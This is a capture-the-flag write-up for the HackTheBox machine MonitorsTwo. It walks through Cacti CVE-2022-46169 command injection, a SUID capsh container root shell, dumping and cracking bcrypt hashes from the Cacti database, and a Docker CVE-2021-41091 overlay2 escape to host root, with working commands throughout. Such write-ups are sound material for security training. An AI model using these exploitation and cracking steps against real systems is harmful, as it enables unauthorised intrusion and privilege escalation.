



<div class="callout callout-info">

**Box Info**

**Platform:** HackTheBox, **OS:** Linux (Ubuntu 20.04 host, Debian container), **Difficulty:** Easy, **Released:** 2023-04-22, **IP:** `10.10.11.211` , `monitorstwo.htb`

</div>

<div class="callout callout-abstract">

**Attack Path**

1. The site is **Cacti 1.2.22**. `remote_agent.php` is vulnerable to **CVE-2022-46169**, an unauthenticated command injection, and it lands a shell as `www-data` inside a **Docker container**.
2. In-container privesc: `/sbin/capsh` is **SUID**, so `capsh --gid=0 --uid=0 --` gives a root shell in the container (GTFOBins).
3. `entrypoint.sh` and `include/config.php` hold MySQL `root:root`. Dump `user_auth`, crack `marcus`'s bcrypt hash, and SSH to the **host** as `marcus`.
4. `/var/mail/marcus` spells out **CVE-2021-41091** (Moby data-dir permissions). Make `/bin/bash` SUID inside the container, then execute that binary from the host through `/var/lib/docker/overlay2/<id>/merged/` to get **root** on the host.

</div>

<div class="callout callout-key">

**Credentials and Flags**


| Where | Value |
| --- | --- |
| Cacti / MySQL (`entrypoint.sh`, `config.php`) | `root : root` |
| `marcus` (cracked bcrypt from `user_auth`) | `funkymonkey` |
| `user.txt` | `/home/marcus/user.txt` |
| `root.txt` | `/root/root.txt` |

</div>

---

## Overview

MonitorsTwo is the sequel to Monitors and, like a lot of the 2023 easy boxes, it is a guided tour of a CVE chain with a container in the middle. Three things are worth actually internalising here. First, **CVE-2022-46169** is a great example of an auth bypass plus an injection working together: the `remote_agent.php` endpoint is supposed to be restricted to poller hosts, but the check trusts a spoofable `X-Forwarded-For`, and once past it the `poller_id` parameter flows into a shell command. Second, the box makes you notice you are **inside a container** (`/.dockerenv`, an `overlay` root mount, a reduced capability set) and pick the escape that matches. Third, the privesc from container-root to host-root is **CVE-2021-41091**, where Docker left the `overlay2` directories world-traversable, so a SUID binary you create in the container is executable by your unprivileged host user through the merged filesystem path.

Related Cacti boxes: [Monitored](/writeups/hackthebox/linux/medium/monitored/) (SNMP plus a different Cacti CVE), [Cactus](/writeups/tryhackme/linux/easy/cactus/). Related container escape boxes: [Analytics](/writeups/hackthebox/linux/easy/analytics/) (env leak), [Jupiter](/writeups/hackthebox/linux/medium/jupiter/). Related "crack a hash from the app's own DB": [Cat](/writeups/hackthebox/linux/medium/cat/), [Bizness](/writeups/hackthebox/linux/easy/bizness/).

---

## Full Walkthrough

### Nmap scan

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Login to Cacti
```

(A full `-p-` scan also lists dozens of `filtered` ports, which is just the lab firewall tarpitting. Ignore them.)



We see that it is running a `cacti` instance. The login page footer gives the version, **1.2.22**. A vhost sweep with `ffuf` returns only noise (every `Host:` value answers with a zero byte body), so there is nothing on subdomains.

```bash
ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -c \
  -u http://monitorstwo.htb -H "Host: FUZZ.monitorstwo.htb" --mc all --fs 13844
```

<div class="callout callout-note">

**CVE-2022-46169, Cacti unauthenticated command injection**

Cacti 1.2.22 ships `remote_agent.php`, an endpoint meant only for remote data collectors. Its authorisation check resolves the client hostname from `X-Forwarded-For` and compares it to the `poller` entries, so setting `X-Forwarded-For: <a known poller host or the server's own name>` passes the check without credentials. Past that, the `poller_id` parameter is concatenated into a `proc_open()` call in the SNMP options path, so a value like `;id;` or a full `bash -c` payload executes as `www-data`. Public PoCs (for example the one by `ptrpudel` or the Metasploit module `linux/http/cacti_unauthenticated_cmd_injection`) automate both halves.

</div>

I see that this version of `cacti` is vulnerable to **CVE-2022-46169**. We get a shell after exploiting it.

The shell is inside a container. `/` has `/.dockerenv` and `/entrypoint.sh`:

```bash
#!/bin/bash
set -ex
wait-for-it db:3306 -t 300 -- echo "database is connected"
if **! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices"**; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    ...
fi
chown www-data:www-data -R /var/www/html
exec "$@"
```

MySQL is `root:root` on the `db` container (same creds in `include/config.php`).

### Container root with SUID capsh

we need to escape the docker container. To get root in the container, GTFOBins `capsh`:

```bash
www-data@50bca5e748b0:/$ ls -l /sbin/capsh
-rwsr-xr-x 1 root root ... /sbin/capsh
www-data@50bca5e748b0:/$ /sbin/capsh --gid=0 --uid=0 --
root@50bca5e748b0:/#
```

<div class="callout callout-note">

**Why SUID capsh is instant root**

`capsh` is a capability-shell wrapper. With the SUID bit set it starts as root, and `--gid=0 --uid=0 --` tells it to drop to uid/gid 0 (that is, stay root) and then `exec` an interactive shell. No exploit, just a misconfigured setuid binary. Same idea as SUID `bash`, `find`, `nmap`, `vim`. Always run `find / -perm -4000 -type f 2>/dev/null` early.

</div>

### Loot the database, crack marcus, SSH to the host

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT username,password FROM user_auth"
```

```console
| id | username | password                                                     |
| 1  | admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| 3  | guest    | 43e9a4ab75570f5b                                             |
| 4  | marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
```

```bash
hashcat -m 3200 marcus.hash /usr/share/wordlists/rockyou.txt
```

`$2y$` is **bcrypt**, mode 3200. `marcus` cracks to `funkymonkey`. That password is reused for the host account:

```bash
ssh marcus@monitorstwo.htb        # funkymonkey
```



`user.txt` is here. Now enumerate the host.

### Privilege Escalation, CVE-2021-41091 (Docker overlay)

`/var/mail/marcus` is a security bulletin that all but names the exploit:

```
CVE-2021-41091: This vulnerability affects Moby ... Attackers could exploit this
vulnerability by traversing directory contents and executing programs on the data
directory with insufficiently restricted permissions. Fixed in Moby 20.10.9.
Running containers should be stopped and restarted for the permissions to be fixed.
```

<div class="callout callout-note">

**CVE-2021-41091, exploiting the overlay2 directory**

Before Moby 20.10.9, `/var/lib/docker/overlay2/` and the per-container `merged/` directories were left `o+rx`, so any user on the host could `cd` into a running container's filesystem. If you are root **inside** the container you can create a SUID root binary there; that same inode is visible from the host at `/var/lib/docker/overlay2/<hash>/merged/...` and, being SUID root and owned by real root, it grants root when a normal host user runs it.

Steps:
1. In the container root shell: `chmod u+s /bin/bash`
2. On the host as `marcus`, find the writable upperdir. `mount | grep overlay` (from the container's earlier linpeas output) shows the `upperdir=/var/lib/docker/overlay2/<hash>/diff`. Iterate the candidates:
```bash
for d in /var/lib/docker/overlay2/*/diff/bin/bash; do
  ls -l "$d" 2>/dev/null | grep -- '-rwsr'
done
"$d" -p        # the SUID bash -> euid 0 on the host
id             # uid=1000(marcus) euid=0(root)
cat /root/root.txt
```

</div>

```bash
root@50bca5e748b0:/# chmod u+s /bin/bash
```



From the host, execute that SUID `bash -p` through the container's `diff` (or `merged`) directory and you are root.

---

## Loot

| Flag | Location |
| --- | --- |
| `user.txt` | `/home/marcus/user.txt` |
| `root.txt` | `/root/root.txt` |

---

## Lessons and Takeaways

- **Patch Cacti.** CVE-2022-46169 is unauthenticated RCE and was widely scanned within days.
- **Do not trust `X-Forwarded-For`** for authorisation. Ever. It is fully attacker controlled.
- **Audit SUID binaries in container images.** `capsh`, `mount`, `bash`, `find` with the setuid bit turn a low-priv container shell into container root.
- **Keep Docker / Moby current.** The overlay permissions bug means container root can become host root on an unpatched engine, and restarting containers after upgrade is required to actually fix perms.
- **Unique service credentials.** Cacti admin, MySQL root, and the `marcus` Linux account should not share a wordlist-crackable password.
- **bcrypt is slow on purpose.** `funkymonkey` only fell because it is in rockyou; a random password here would have stopped the chain.

---

## Related Writeups

- **Cacti:** [Monitored](/writeups/hackthebox/linux/medium/monitored/), [Cactus](/writeups/tryhackme/linux/easy/cactus/)
- **Unauthenticated web RCE, N-day:** [Analytics](/writeups/hackthebox/linux/easy/analytics/), [Bizness](/writeups/hackthebox/linux/easy/bizness/), [Heal](/writeups/hackthebox/linux/medium/heal/)
- **Container to host escape:** [Analytics](/writeups/hackthebox/linux/easy/analytics/), [Jupiter](/writeups/hackthebox/linux/medium/jupiter/)
- **SUID binary via GTFOBins:** [Antique](/writeups/hackthebox/linux/easy/antique/) (`lpadmin`/CUPS), [Lookup](/writeups/tryhackme/linux/easy/lookup/), [BackFire](/writeups/hackthebox/linux/medium/backfire/)
- **Crack a hash from the app database:** [Cat](/writeups/hackthebox/linux/medium/cat/), [Bizness](/writeups/hackthebox/linux/easy/bizness/)

## References

- CVE-2022-46169 (Cacti) <https://github.com/Cacti/cacti/security/advisories/GHSA-6p93-p743-35gf>
- CVE-2021-41091 (Moby) <https://github.com/moby/moby/security/advisories/GHSA-mc8v-mgrf-8f4m>
- GTFOBins capsh <https://gtfobins.github.io/gtfobins/capsh/>
- hashcat modes <https://hashcat.net/wiki/doku.php?id=example_hashes>
